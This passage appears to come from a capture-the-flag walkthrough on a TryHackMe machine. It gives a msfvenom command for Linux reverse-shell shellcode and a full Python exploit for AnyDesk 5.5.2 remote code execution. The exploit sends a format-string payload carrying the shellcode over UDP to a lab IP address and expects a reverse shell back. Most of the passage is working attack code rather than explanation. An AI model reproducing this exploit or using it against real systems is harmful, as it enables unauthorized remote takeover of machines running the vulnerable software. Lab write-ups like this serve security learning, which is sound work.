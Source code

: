 ```python
```

We need to craft our own shellcode, let's use `msfvenom` for it:

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
```

Once we get our shellcode, we need to replace it on the script, we also need to change the `IP` to match the THM machine's IP, final script should look similar to this one:

```python
# Exploit Title: AnyDesk 5.5.2 - Remote Code Execution
# Date: 09/06/20
# Exploit Author: scryh
# Vendor Homepage: https://anydesk.com/en
# Version: 5.5.2
# Tested on: Linux
# Walkthrough: https://devel0pment.de/?p=1881

#!/usr/bin/env python
import struct
import socket
import sys

ip = '10.10.90.151'
port = 50001

def gen_discover_packet(ad_id, os, hn, user, inf, func):
  d  = chr(0x3e)+chr(0xd1)+chr(0x1)
  d += struct.pack('>I', ad_id)
  d += struct.pack('>I', 0)
  d += chr(0x2)+chr(os)
  d += struct.pack('>I', len(hn)) + hn
  d += struct.pack('>I', len(user)) + user
  d += struct.pack('>I', 0)
  d += struct.pack('>I', len(inf)) + inf
  d += chr(0)
  d += struct.pack('>I', len(func)) + func
  d += chr(0x2)+chr(0xc3)+chr(0x51)
  return d

# msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.y.y LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
shellcode =  b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\x87\x2a\x88"
shellcode += b"\xed\x17\xae\x2b\x46\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\xed\x03\xd0\x74\x7d"
shellcode += b"\xac\x74\x2c\x86\x74\x87\xe8\x5f\x39\x63\xff"
shellcode += b"\x85\x2a\x99\xb1\x1d\xa0\x3e\x5a\xd6\x62\x01"
shellcode += b"\x0b\x7d\xbe\x71\x2c\xad\x72\x87\xe8\x7d\xad"
shellcode += b"\x75\x0e\x78\xe4\xe2\xcc\x4f\xa1\x2e\x33\x71"
shellcode += b"\x40\xb3\xb5\x8e\xe6\x90\x69\xe5\x43\xe6\xc2"
shellcode += b"\x64\xc6\x2b\x15\xcf\xa3\x6f\xbf\x40\xe6\xa2"
shellcode += b"\xa0\x88\x2f\x88\xed\x17\xae\x2b\x46"

print('sending payload ...')
p = gen_discover_packet(4919, 1, '\x85\xfe%1$*1$x%18x%165$ln'+shellcode, '\x85\xfe%18472249x%93$ln', 'ad', 'main')
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.sendto(p, (ip, port))
s.close()
print('reverse shell should connect within 5 seconds')
```